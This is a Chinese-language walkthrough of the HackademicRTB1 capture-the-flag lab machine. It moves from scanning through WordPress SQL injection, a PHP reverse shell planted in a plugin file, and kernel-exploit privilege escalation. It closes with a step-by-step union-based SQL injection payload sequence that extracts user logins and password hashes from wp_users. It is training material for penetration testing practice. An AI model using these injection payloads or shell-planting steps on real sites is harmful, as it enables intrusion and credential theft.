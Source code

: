 # HackademicRTB1（√）

## nmap扫描 

```
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
```

## 目录扫描  

初次扫描http://192.168.25.116/没什么结果，但是我在源码界面又发现wp-content，我就扫描http://192.168.25.116/Hackademic_RTB1/，终于出结果了  
![](img/2024-03-09-00-45-01.png)  


## web渗透  

![](img/2024-03-09-00-01-01.png)  
注意p参数，尝试注入，没有结果，然后查看源代码乱点  
![](img/2024-03-09-00-07-02.png)  
然后发现cat参数有注入，由于手工注入忘记了，先用sqlmap，手工exp看完视频再补  
![](img/2024-03-09-00-05-29.png)  
sqlmap跑完之后，大概是这些信息，可以尝试wp登录  
![](img/2024-03-09-00-34-26.png)  
现在访问wp-admin之后尝试账户密码登录，但是我又遇到个问题，就是这个sqlmap跑出来的账户有nicename，nickname等杂七杂八的name，所以我可以用wp-scan尝试扫描，当然最后也可能会用wp-scan扫描漏洞  
![](img/2024-03-09-00-55-57.png)  
![](img/2024-03-09-01-02-12.png)  
之前查看源码的时候就已经发现了版本，发现这些漏洞，同时wpscan验证了这些漏洞，然后wpscan扫描出用户NickJames，尝试之前发现的密码admin，登录成功  
![](img/2024-03-09-00-59-12.png)  

## 获得初始shell  

在nickjames登录之后我一直找不到写php的地方，然后看了一丢丢wp，发现其wp-admin页面和我的不一样，那么现在我意识到nickjames用户权限不高，所以wpscan扫出来的用户也不一定准确，于是我根据nickjames所在那一列的账户名称用其他账户名登录，GeorgeMiller：q1w2e3  
![](img/2024-03-09-12-50-47.png)  
我就说明明wordpress可以写php，为什么找不到，然后在这里写上反弹shell  
![](img/2024-03-09-12-54-44.png)  
虽然hello.php可以写，但是我最后是在markdown.php下写shell，成功反弹，在这之前我去plugins界面激活了这个插件，不知道这个是否有影响，最后成功反弹  
![](img/2024-03-09-12-59-06.png)  

## 提权  

这个内核版本还是很低，可以尝试内核漏洞提权，但是还是最后考虑  
suid发现了at和crontab，sh无法使用sudo，bash可以使用sudo，但是由于是apache账户，所以没有密码，正如之前所说不能sudo，suid就不考虑  
![](img/2024-03-09-13-09-28.png)  
然后我看到了这个账户，大概率是需要切换到这个账户进行提权  
![](img/2024-03-09-13-12-17.png)  
找了很久没找到其他提权方式，于是我尝试内核漏洞提权，试了几个exp，都失败了，然后我看见这是一个redhat linux，于是可以尝试更准确的exp  
![](img/2024-03-09-13-45-57.png)  
虽然但是我也不知道为什么，找了一堆exp，最后是15285.c这个exp提权成功  
![](img/2024-03-09-14-10-29.png)  
![](img/2024-03-09-14-07-31.png)  

## 总结 

打了大概30台靶机之后的总结，首先这次凭借自己的盲打发现了sql注入，并且进入了wp后台，但是由于过于相信wpscan的结果，导致在一个低权限用户里没发现下一个入口（第一个错误），提权的话也是试了一大堆exp，最后我都不知道为什么刚好这个就行了（第二个错误），明明2.6.36和2.6.31也不一样阿！！！  
虽然还是没能直接盲打成功，但相比以前还是有所进步  

## 知识拓展  

### sql手工注入  

我们从之前的截图看到cat_ID=1而不是='1'所以这是一个整形注入  
在看了up的视频之后，对sql注入又有一个新的理解，记忆中对于sql语句就是对于information_schema的操作，并没有解释很清楚，所以记不住，而sql注入无非就是对于sql语句的拼接，逻辑的思考。  
```
?cat=1 order by 1 -- 从之前的截图可以看到是wp_categories表的查询，所以我们判断字段
?cat=1 order by 6 -- 报错，证明这张表的字段是5
?cat=1 union select 1,2,3,4,5 -- 用union查询接下来的结果,那我们需要让union前面的语句逻辑为假，cat=0让他查询不存在的字段，或者直接and 1=2等等
?cat=0 union select 1,2,3,4,5 --屏幕上显示“Archive for the "2" Category”那么说明第二列有数据
?cat=0 union select 1,database(),3,4,5 -- 这样可以查看到数据库，由于这本来是wordpress cms，所以数据库为wordpress也不奇怪，那么我们要看到表里的字段等其他内容我们用google搜索wordpress database description 去寻找相关数据，然后我们看到有用的表是wp_users,有用的字段是user_login,user_pass,user_level等
?cat=0 union select 1,user_login,3,4,5 from wp_users -- 因为前面逻辑为假，不执行前面的语句，那么后面的语句就是很正常的sql语句“select [columns] from [tables]”，这样查询显示的结果不全
?cat=0 union select 1,group_concat(user_login,0x2d,user_pass,0x2d,user_level) -- 这样我们得到的数据就是一组，0x2d是分隔符“-”，我们可以在linux终端输入ascii查看这些符号对应的十六进制
```
